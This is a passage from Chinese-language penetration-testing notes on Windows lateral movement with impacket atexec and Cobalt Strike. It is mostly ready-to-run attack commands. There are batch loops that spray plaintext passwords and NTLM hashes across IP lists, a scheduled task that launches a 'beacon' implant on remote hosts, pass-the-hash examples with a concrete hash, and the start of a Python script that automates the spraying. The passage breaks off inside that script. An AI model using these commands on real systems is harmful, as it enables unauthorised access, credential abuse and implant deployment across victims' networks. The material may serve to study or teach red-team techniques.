    FOR /F %%i in (ips.txt) do schtasks /run /s %%i /tn beacon /i
   
   at \\192.168.3.21 06:45 c:\beacon.exe
   
   FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
   
   FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版
   
   FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版
   
   FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测HASH对应IP回显版
   ```

# impacket-atexec

![1](D:\笔记\web安全学习笔记\img\NWIPC\image1.png)

1. [impacket-examples-windows](https://gitee.com/RichChigga/impacket-examples-windows)

2. 该工具是一个半交互的工具，适用于Webshell下，Socks代理下;

3. 在渗透利用中可以收集用户名、明文密码、密码hash、远程主机等做成字典，批量测试

4. CS本地用户明文连接：

   ``` powershell
   shell atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
   ```

5. CS域内用户明文连接：

   ``` powershell
   shell atexec.exe god/administrator:Admin12345@192.168.3.21 "ver"
   ```

6. CS域内本地用户明文密文连接：

   ``` powershell
   atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
   
   atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
   ```

7. Py脚本-全自动化

   ``` powershell
   pyinstaller -F fuck_neiwang_001.py 生成可执行EXE
   ```

   ``` powershell
   import os,time
   
   ips={
   
       '192.168.3.21',
   
       '192.168.3.25',
   
       '192.168.3.29',
   
       '192.168.3.30',
   
       '192.168.3.32'
   
   }
   
   
   users={
   
       'Administrator',
   ```